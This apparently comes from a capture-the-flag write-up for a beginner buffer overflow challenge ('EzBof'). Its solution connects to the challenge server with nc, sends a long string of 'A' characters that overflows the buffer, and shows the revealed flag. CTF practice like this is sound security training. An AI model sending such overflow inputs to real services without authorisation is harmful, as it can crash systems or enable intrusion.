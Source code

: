 # EzBof

**Challenge Type: Buffer Overflow**  
**Challenge Status: Solved**

## Challenge
The government has set up a buffer zone to separate the zombies and the survivors, but the buffer zone is overflowing with the survivors and zombies! What should you do now?

nc ezbof.nypinfsecctf.tk 8009

## Solution
```bash
nc ezbof.nypinfsecctf.tk 8009

Please enter a user input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
NYP{B0f_i5_3A5y}
```
